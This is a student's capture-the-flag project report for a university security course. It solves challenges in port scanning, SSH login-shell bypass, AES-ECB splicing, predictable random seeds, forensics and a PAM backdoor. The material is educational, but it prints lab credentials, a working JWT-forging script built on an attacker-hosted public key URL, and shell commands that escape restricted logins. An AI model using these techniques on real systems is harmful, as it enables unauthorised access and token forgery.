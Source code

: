 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: Student 24059081</p>
  <p>Student Name: Ziying Zhou</p>

</div>

# Part 1 - Linux and Networking
## Emu Hack #1 - Backdoored
### Step 1
Use NMAP to scan the specified port range of the server to determine which port has open services.
Step 1: Use nmap to scan ports
Firstly, we will use nmap to scan the port range 61000 to 61500 on IP address 34.116.68.59. Install it with command:
```
sudo apt-get install nmap
```
Scan specified port range
Scan the specified port range using the following command:
```
nmap -p 61000-61500 34.116.68.59 -Pn
```
 `-p` : option is used to specify the port range.

 `- Pn`:  option is used to skip host probing (this option can be used if you encounter issues with unresponsive hosts).

 Then we got this:
 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 08:16 EDT
Nmap scan report for 59.68.116.34.bc.googleusercontent.com (34.116.68.59)
Host is up (0.063s latency).
Not shown: 500 filtered tcp ports (no-response)
PORT      STATE SERVICE
61337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds
```
### Step 2
Use Netcat to send TCP messages to the discovered open port and verify which port is the backdoor port.
Install netcat with command:
```
sudo apt-get install netcat
```
The port we found is `61337`, so we can use this command to send the message:
```
echo "EMU" | nc 34.116.68.59 61337
```
We got what we need now.
```
 ______        ___   _ _____ ____    _                  
|  _ \ \      / / \ | | ____|  _ \  | |__  _   _        
| |_) \ \ /\ / /|  \| |  _| | | | | | '_ \| | | |       
|  __/ \ V  V / | |\  | |___| |_| | | |_) | |_| |       
|_|     \_/\_/  |_| \_|_____|____/  |_.__/ \__, |       
    _                             _____    |___/        
   / \   _ __   __ _ _ __ _   _  | ____|_ __ ___  _   _ 
  / _ \ | '_ \ / _` | '__| | | | |  _| | '_ ` _ \| | | |
 / ___ \| | | | (_| | |  | |_| | | |___| | | | | | |_| |
/_/   \_\_| |_|\__, |_|   \__, | |_____|_| |_| |_|\__,_|
               |___/      |___/                         

Did you really think you would find our backdoor so easily? :P

Good effort though, here's a flag for your attempt: UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```
#### Flag Found
```bash
UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```

## Emu Hack #2 - Git Gud
### Step 1
#### Check Git server and clone repository ：
Install the `git`:
```
sudo apt-get install git
```
Clone Git repository
Run the following command to clone a Git repository named emu:
```
git clone http://34.116.68.59:8000/emu.git
```
```
┌──(kali㉿kali)-[~]
└─$ git clone http://34.116.68.59:8000/emu.git
Cloning into 'emu'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (3/3), done.
```
### Step 2
#### Check the cloned repository：
Enter the cloned warehouse repository with command `cd emu`. Then list all the file with command `ls`.
There is a text file call `README.txt` So we need to catch the message with `cat README.txt`.
```
┌──(kali㉿kali)-[~/emu]
└─$ cat README.txt
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
--------------------------------------------------

To Angry Emu hacker,

As per our agreement, I have set up some SSH credentials for you to access our server:

username: emu001
password: feathers4life24

To make sure only us birbs can get in I set a login shell to stop pesky hoomans getting in. Just do that SSH trick I taught you about to get in.

Delete this message after you read it!

Best regards,
Mr. X
```
#### Flag Found
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}

```

## Emu Hack #3 - SSH Tricks
### Step 1
#### Run commands directly using SSH：
As we got the username and password from last question:
```
username: emu001
password: feathers4life24
```
Try using SSH to directly execute commands on a remote host, such as listing the contents of the/home/emu001 directory:
```
ssh -p 2022 emu001@34.116.68.59 "ls /home/emu001"
```
Then we got:
```
note_to_angry_emu_hacker.txt
top_secret.png
```
Then try to copy it to local folder:
```
scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
```
```
┌──(kali㉿kali)-[~/emu]
└─$ scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
emu001@34.116.68.59's password: 
note_to_angry_emu_hacker.txt                        100%  313     2.5KB/s   00:00    
top_secret.png                                      100%  475KB 912.0KB/s   00:00  
```
Obviously, `top_secret.png` is what we are looking for. Now open it from where we just downloaded.
#### Flag Found
```bash
UWA{how_did_u_get_pass_that_login_shell?????}
```

## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1
Because `python3 -c 'import pty; pty.spawn("/bin/bash")'` didn't work on my computer, I used this instead:
```
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
`-t`: This option forces the allocation of a pseudo terminal. For certain commands, especially those that require user interaction, such as bash, this option is necessary. It allows us to run interactive shells or other commands in remote sessions.
`"bash - i"`: This section is the command to be executed after successfully connecting to the remote server. In this case, we need to launch an interactive bash shell- The i option represents an interactive shell.
### Step 2
```
$ sudo -l
Matching Defaults entries for emu001 on e4b74d8b74d2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User emu001 may run the following commands on e4b74d8b74d2:
    (mr_x) /usr/bin/git
```
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

# Part 2 - Cryptography
## Advanced Emu Standard
### Step 1
This scenario describes the use of AES-128 encryption algorithm to encrypt data in ECB (Electronic Codebook) mode.
Because AES-128 operates with a block size of 16 bytes. The website can only encrypt 31 bytes of data at a time. However, command `deactivate_special_procedure_123` has 32 bytes long So I devided this command into two parts both only have 16 bytes of it.
```bash
deactivate_speci
```
```bash
al_procedure_123
```

### Step 2
I put these two command `deactivate_speci` and `al_procedure_123` into Command Encryptor respectively.
Then I gain the ciphertext `3155433d53ed30c89aef89b2e7273924` and `4127efafc809cc1209376d039e0001f1`.
Now put them together.
```bash
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
### Step 3
Put the cyphertext into Transmit encrypted command and get the flag.
#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```

## Emu Cook Book
### Step 1
`H4sI` is an identifier that indicates that a string of data is compressed using gzip and encoded as the beginning of Base64 format
At the end of the cyphertext, there are two '=' which is also likely to be Base64. 
So I try to use `From Base64` and `Gunzip` first in Cyberchef.
Then I gain these:
```
00000000%20%2035%2036%2020%2035%2036%2020%2036%2034%2020%2034%2032%2020%2036%2035%2020%2033%20%20%7C56%2056%2064%2042%2065%203%7C%0A00000010%20%2033%2020%2035%2032%2020%2034%2039%2020%2034%2064%2020%2033%2031%2020%20......
```
### Step 2
As we can see above, the text includes special characters like '%' in it. It might be the URL encoding format, so I use `URL Decode`
And it becomes like this:
```
00000000  35 36 20 35 36 20 36 34 20 34 32 20 36 35 20 33  |56 56 64 42 65 3|
00000010  33 20 35 32 20 34 39 20 34 64 20 33 31 20 33 39  |3 52 49 4d 31 39|
......
```
### Step 3
The result we gained from last step is `Hexdump` format, so I use `From Hexdump` in cyberchef, then we obtained a set of hexadecimal numbers.
Easily, use `From Hex` in cyberchef.
Then we have:
```
VVdBe3RIM19lTW9PNV93MUxMX24zVjNyX3NUb1BfZDAxbkdfdEgzNWVfZFZtQl9jMUJyX2NIM2VGX2NoNExsU30=
```
Similarly, it ends with '='. So I assume it is a base64 text and use `From Base64` again.
And we have the flag now.
#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## Emu Casino
### Step 1
#### What is seed?
As we can see from the `filp_coin.py` file, `seed(str(session["round"]) + "_" + session["session_id"])` is the main thing to decide the result.
The seed() function in Python initializes the random number generator with a specific starting point, allowing for reproducible random outcomes.
The seed here is consist of two parts: first one is `session["round"]` which is the round of the game, the second one is `session["session_id"]` which can be found in the cookie.
### Step 2
#### Find the session id:
We can right click on the page `http://34.87.251.234:3000/` and select `inspect`. Then find `Application` and we can see `cookie` on the left panel.
The cookie value we found is:
```
eyJjcmVkaXRzIjoxMCwicm91bmQiOjEsInNlc3Npb25faWQiOiJiYTNlNTJiMTc0M2Y3MzUxOGM4YmEwYzY1YjAzYTliYyJ9.ZkiIpw.pTUdUQa5nkII0zkbM7EBa8RXQY4
```
This is base64 text, so we can decode it through CyberChef: `https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)`.
CyberChef is a web-based tool for encoding, decoding, encrypting, decrypting, and analyzing data through a wide array of operations.

After we use `From Base64` , we got:
```
{"credits":10,"round":1,"session_id":"ba3e52b1743f73518c8ba0c65b03a9bc"}fH.§
SQÕ.k.ä .3.³;..¼Et.ä
```
So the session id is `ba3e52b1743f73518c8ba0c65b03a9bc`.
### Step 3
#### Use `solution.py`:
As the solution provided:
```

def flip_coin():
    # Change this line
    session_id = ""
    # Change this line
    round = 0

    seed(str(round) + "_" + session_id)

    print(choice(["tails", "heads"]))
```
Only thing we need to do is filling the session id and round number in it and we will get the prediction.
#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## EWT
### Step 1
#### Find the flaw:
Open the `website.js` file, is easily to find the code below:
```
if (signingAlgo === "RS256") {
        // Grab where the RS256 public key URL from the "iss" claim in the JWT body
        // We currently haven't figured out how to sign our own RS256 JWTs yet...
        const issuerUrl = decodedBody.iss;

        // Make sure those hoomans aren't hacking with something like file://
        const regExp = new RegExp("^https?://");
        if (!regExp.test(issuerUrl)) {
            throw Error("invalid URL in iss claim");
        }
        
        // Should be fine to download the public key
        key = await downloadFromUrl(issuerUrl);
    }
```
In the comment, it reveals that EMU didn't use RS256 to sign their JWT. So we can use a JWT signed with RS256 to bypass the verification.
### Step 2
#### How is the JWT consist of:
JWT (JSON Web Token) is a compact, URL-safe means of representing claims to be transferred between two parties, commonly used for authentication and information exchange in web applications.
As we can find this JWT in site `http://34.87.251.234:3002/` :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE2MDMwNTMzfQ.AXthaVqinWUo9K0DAWdzOyq-KL2H3_09GQsPw7RngrY
```
Now decode it through Cyberchef to look at the structure.
```
{"alg":"HS256","typ":"JWT"}{"username":"peasant-hooman","iat":1716030533}..¶..ª)ÖR.JÐ0.w3²¨¢ö.}=...Ã´g.¶
```
This JWT is signed with HS256 algorithm. Still in the `website.js`, a comment: ` // If the username is "superior-emu" in the JWT then give them the pressie` replies that we can use username:`superior-emu` to sign the JWT. Then how?
### Step 3
#### Create the new JWT:
To force the emu download our public key signed by RS256, we need to create an URL where can be read by emu.
Using CyberChef, `Generate RSA Key Pair` can provide a pair of RSA key.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDWJNveamCYETN8BeTUxHL8AOGs
Kc0YqlYtpUqGQtMAGFe4FpDg+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxc
MO72l4bsTbSuNQtuqsDT6s5nRTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WL
uQPL30p13CJR7LzI3wIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----
```
We can use website `https://text.is/` to keep the public key. Now we got the URL:`https://text.is/KXRZ8/raw`.
In the context of JWT (JSON Web Tokens), iss stands for "issuer" and is a claim that identifies the principal that issued the JWT.
So we are going to put the URL into iss: iss:"https://text.is/KXRZ8/raw".
By combining all the things we know and put it into a python file(for generating the JWT)
```
import jwt
from datetime import datetime, timedelta

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----"""

payload = {
    'username': 'superior-emu', 
    'iss': 'https://text.is/KXRZ8/raw' 
}
# Sign JWT with RSA256
encoded_jwt = jwt.encode(payload, private_key, algorithm='RS256')
print("Generated JWT:", encoded_jwt)
```
we can obtain:
```
Generated JWT: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyaW9yLWVtdSIsImlzcyI6Imh0dHBzOi8vdGV4dC5pcy9LWFJaOC9yYXcifQ.OtYLcA-LcQGuWC405HuJxtV5xADgYBM7bL78JlrFMiZcMwq-6w2Br9ZC2u3AqQz9wVhYrZrbI9h0rS_YWC6ExN9SUXCQjNjnT54wudo19xWfqveE82E6Ed_Ir1MCWwHfMb3NvbAWqYdKvmS-Y1PWLypA7siUOC869qcwbz6AZqg
```
Put this JWT into the server.
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```

# Part 3 - Forensics
## Caffeinated Emus
### Step 1
Picture may embed some metadata. You can use exiftool to extract this information.
Install exiftool:
```
sudo apt-get install exiftool
```
Extract metadata:
```
exiftool /home/kali/loganpaul-emus.png
```
And we got:
```
┌──(kali㉿kali)-[~]
└─$ exiftool /home/kali/loganpaul-emus.png
ExifTool Version Number         : 12.76
File Name                       : loganpaul-emus.png
Directory                       : /home/kali
......
GPS Latitude                    : 31 deg 27' 59.19" S
GPS Longitude                   : 119 deg 29' 0.70" E
GPS Position                    : 31 deg 27' 59.19" S, 119 deg 29' 0.70" E
```
Now we have the location: `-31.466441, 119.483528`.
So we can search it in GoogleMap: `https://www.google.com/maps`.
#### Flag Found
```bash
UWA{Marvel Loch}
```

## Flightless Data
### Step 1
As we can know from the clue, emu used `steghide` to encode their message in the image. So we can decode it with the oppsite way:
Install the `steghide` first:
```
sudo apt install steghide 
```
Look for some help with:
```
steghide --help
```
### Step 2
Save the image from `html` as emufly.jpg.
Now we got what we need:
```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf /home/kali/emufly.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
`-sf`: Specify a file that contains hidden data.

Now open the secret.txt
```
cat secret.txt
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr} 
```

## Ruffled Feathers
### Step 1
#### Using ghex to find the problem:
GHex, short for GNOME Hex Editor, is a desktop application used to edit binary files in hexadecimal format, providing tools to analyze and modify the raw binary content of files visually. 
Download it with command :
```
sudo apt install ghex
```
Then open the pdf file with ghex:
```
ghex /home/kali/topsecret_corrupted.pdf
```
What we can see from the right panel is:

![image](https://github.com/GLRY-M/cits1003/assets/169660884/8b9abe0b-b9a4-49e2-a3fb-002ca9b368a7)

It's a little bit hard to check what's the problem. So we can open a normal pdf file to check the difference.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/54c88605-95ac-4740-9d73-2a71d824ce9d)

What was supposed to be `length` was `Corrupted`.So we can edit this and save it. Now the pdf has the useful content in it.
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```


## Emu in the Shell
### Step 1
#### SSH login to server:
Connect to the server via SSH using the provided account information. Using commands:
```
ssh-p 2022 ir-account@34.87.251.234
```
`- p 2022` is the specified port, the username is `ir-account`, and the server address is `34.87.251.234`.  

Find and check the PAM module:
Once logged in, we need to check the files in the `/lib/x86_64 Linux gnu/security` directory to find any recently modified PAM modules. We can use the following command to view the modification time of a file:
```
ls lt/lib/x86_64 Linux gnu/security
```
To find the file be changed by EMU, we can go to this blog: `https://github.com/zephrax/linux-pam-backdoor`. Then we will know the file `pam_unix.so` is what er are looking for.
### Step 2
#### Now copy this file to local folder:
Let's copy the files to the `/tmp` directory, which is usually open to all users for write access. Use the following command:
(Ensure that you execute this command in the terminal of the Kali environment)
```
scp -P 2022 ir-account@34.87.251.234:/tmp/pam_unix.so ~/pam_unix.so
```
### Step 3
#### Analyse what did EMU change in pam_unix.so:
Use Ghidra to do it: (download it through: `https://ghidra-sre.org/`).
We also need to download JDK (version need to higher than 17)

Now open Ghidra and import `pam_unix.so` and `analyse` it. As we knew from the clue, there is an account called 'emu-haxor', so we can use this as the keyword to search in the file.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/bf625be8-22b5-4103-a692-4b7ff54ba2f4)

There is an item `pUpPet_m4sT3r`. It probably is the password for emu-haxor account. So log in the emu-haxor now:
```
ssh-p 2022 emu-haxor@34.87.251.234
```
The flag should be in it right now, use `ls` have a look at what's in here and we can find there is a `flag.txt` here -- is what we are looking for:
```
cat flag.txt
```

#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```

# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 2
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 3
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Apothecary
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```
